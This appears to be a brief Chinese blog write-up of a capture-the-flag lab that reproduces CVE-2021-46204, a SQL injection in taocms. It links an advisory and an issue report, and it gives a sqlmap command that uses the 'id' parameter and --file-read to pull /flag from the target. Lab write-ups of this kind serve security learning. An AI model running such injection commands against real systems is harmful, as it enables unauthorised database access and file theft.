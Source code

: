 ```yaml
---
title: CVE-2021-46204【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-46204)

## 2. 漏洞分析

[There is SQL blind injection at "Management Link" · Issue #14 · taogogo/taocms · GitHub](https://github.com/taogogo/taocms/issues/14)

## 3. 漏洞复现

有漏洞分析之注入点在 `id` 参数，burp suite抓包跑 `sqlmap` 即可。经不同命令尝试，发现可用 `--file-read` 直接读取根目录下的 flag

```bash
python sqlmap.py -r post.txt -p id  --batch --file-read "/flag"
```

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309141534632.jpg)
